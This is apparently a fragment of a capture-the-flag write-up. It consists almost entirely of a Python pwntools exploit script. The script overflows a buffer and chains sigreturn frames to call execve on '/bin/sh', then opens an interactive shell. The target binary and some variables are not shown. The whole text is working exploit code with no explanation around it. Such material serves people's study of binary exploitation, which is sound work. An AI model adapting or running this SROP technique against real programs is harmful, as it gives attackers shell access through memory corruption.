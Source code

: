 ```py

payload = b"A"*24
payload += p64(vuln)
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.recvuntil(b"vuln!")
p.sendline(b"A"*14)

frame2 = SigreturnFrame()
frame2.rax = 0x3b  # execve
frame2.rdi = 0x402000 # pointer to "/bin/sh"
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall

second_payload = b"/bin/sh\x00"
second_payload += b"A"*0x100
second_payload += p64(vuln)
second_payload += p64(syscall)
second_payload += bytes(frame2)

log.info(f"{len(second_payload)=}")

input("press any key to continue")
p.sendline(second_payload)

p.recvuntil(b"/bin/s")
p.sendline(b"A"*14)

p.interactive()
```
